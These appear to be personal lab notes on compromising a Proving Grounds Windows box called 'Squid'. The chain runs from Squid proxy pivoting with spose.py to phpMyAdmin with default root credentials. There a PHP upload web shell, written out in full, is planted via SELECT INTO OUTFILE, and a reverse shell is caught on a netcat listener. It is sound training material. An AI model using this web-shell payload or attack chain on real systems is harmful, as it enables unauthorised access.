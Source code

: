 # NMAP 

```
sudo nmap -sC -sV -vvv 192.168.236.189 -oN nmap-squid
```

![[PG/Windows/attachments/Pasted image 20250706153026.png]]
- squid proxy port is interesting squid 4.14

All ports 

![[PG/Windows/attachments/Pasted image 20250706153545.png]]



Ruling out low hanging fruit 

# SMB 

```
nxc smb 192.168.236.189 -u 'administrator' -p 'administrator' --shares
```

No access to shares, but can add this domain to `/etc/hosts`

![[PG/Windows/attachments/Pasted image 20250706153314.png]]
DOMAIN: SQUID
Windows 10 / Server 2019 Build 17763 x64

Always try two tools

![[PG/Windows/attachments/Pasted image 20250706153432.png]]

# RPC 

```
rpcclient -U '' -N 192.168.236.189
```

![[PG/Windows/attachments/Pasted image 20250706153638.png]]
- nope 

# Squid HTTP 

Port 3128 - version 4.14

Quick googling of exploit for this didn't return anything to viable. 

Browse to port 

![[PG/Windows/attachments/Pasted image 20250706153926.png]]

Start feroxbuster 

```
feroxbuster -u http://squid:3128/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt 
```
- nothing 


Hovering over webmaster and see an interesting link

![[PG/Windows/attachments/Pasted image 20250706154154.png]]
- mailto webmaster 👀

Gonna intercept this mailto request with burp. oh.. it didn't work.

See error closer in Burp 

![[PG/Windows/attachments/Pasted image 20250706173629.png]]

Underscores are not allowed?

![[PG/Windows/attachments/Pasted image 20250706173659.png]]

![[PG/Windows/attachments/Pasted image 20250706173736.png]]
- FTP / Gopher 

![[PG/Windows/attachments/Pasted image 20250706173816.png]]

```
wfuzz -u 'http://squid:3128/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/api/actions.txt
```
- nothing 

Trying out this out to try to talk to an internal machine, but no connection

```
curl -x http://192.168.236.189:3128 http://127.0.0.1
```


# SPOSE 

From [hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/3128-pentesting-squid.html): 


 Squid Pivoting Open Port Scanner ([spose.py](https://github.com/aancw/spose))
```
python3 spose.py --proxy http://192.168.236.189:3128 --target 192.168.236.189
```

![[PG/Windows/attachments/Pasted image 20250706191443.png]]

Wooow

Configure the Squid Proxy in FoxyProxy 

![[PG/Windows/attachments/Pasted image 20250706191805.png]]

Turn on the proxy and navigate to `http://192.168.236.189:8080` 

![[PG/Windows/attachments/Pasted image 20250706191902.png]]

# Website 

![[PG/Windows/attachments/Pasted image 20250706192033.png]]

adminer
![[PG/Windows/attachments/Pasted image 20250706192251.png]]

Found this phpmyadmin page too.

Default creds of root and no password should work 

![[PG/Windows/attachments/Pasted image 20250706194249.png]]

Annd I'm logged in 

![[PG/Windows/attachments/Pasted image 20250706194316.png]]

There's an exploit https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f

```
|SELECT|
||"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"|
||INTO OUTFILE 'C:/wamp/www/uploader.php';|
```
Create a file called uploader.php to insert into the SQL console

Enter this into SQL console
```
SELECT  
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"  
INTO OUTFILE 'C:/wamp/www/uploader.php';
```

![[PG/Windows/attachments/Pasted image 20250706210252.png]]

Browse to uploader.php

waaaaat

![[PG/Windows/attachments/Pasted image 20250706210409.png]]

Upload Ivan Sincek reverse shell

https://www.revshells.com/

Start nc listener 

```
rlwrap nc -lvnp 9001
```

![[PG/Windows/attachments/Pasted image 20250706211013.png]]

Catch reverse shell

![[PG/Windows/attachments/Pasted image 20250706211037.png]]

oh shit 

![[PG/Windows/attachments/Pasted image 20250706211055.png]]
niiice
